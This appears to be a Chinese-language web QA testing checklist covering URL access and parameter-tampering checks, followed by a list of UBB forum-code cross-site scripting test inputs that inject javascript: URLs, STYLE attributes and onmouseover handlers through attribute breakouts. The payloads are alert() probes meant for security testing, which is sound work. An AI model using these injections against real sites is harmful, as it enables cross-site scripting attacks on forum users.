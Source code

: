  

关于URL：

1.某些需登录后或特殊用户才能进入的页面,是否可以通过直接输入网址的方式进入；

2.对于带参数的网址,恶意修改其参数,(若为数字,则输入字母,或很大的数字,或输入特殊字符等)后打开网址是否出错,是否可以非法进入某些页面；

3.搜索页面等url中含有关键字的,输入html代码或JavaScript看是否在页面中显示或执行。

4.输入善意字符。

 

UBB:

 

[url=http://www.****.com] 你的网站[/url]

1.试着用各种方式输入UBB代码,比如代码不完整,代码嵌套等等.

2.在UBB代码中加入属性,如样式,事件等属性,看是否起作用

3.输入编辑器中不存在的UBB代码,看是否起作用

 

[url=javascript:alert('hello')]链接[/url]

[email=javascript:alert('hello')]EMail[/email]

[email=yangtao@rising.com.cn STYLE="background-image: url(javascript:alert('XSS'))"]yangtao@rising.com.cn[/email]

 

[img]http://www.13fun.cn/2007713015578593_03.jpg style="background-image:url(javascript:alert('alert(xss)'))"[/img]

[img]http://www.13fun.cn/photo/2007-7/2007713015578593_03.jpg "onmouseover=alert('hello');"[/img]

 

[b STYLE="background-image: url(javascript:alert('XSS'))"]一首诗酸涩涩服务网[/b]

[i STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/i]

 

[u]一二三四五六七北京市[/u]

[font=微软雅黑" STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/font]

[size=4" STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/size]

[color=Red" STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/color]

[align=center" STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/align]

[float=left" STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/float]

[font=微软雅黑 STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/font]

[size=4 STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/size]

[color=Red STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/color]

[align=center STYLE="background-image: url(javascript:alert('XSS'))"]一二三四五六七北京市[/align]
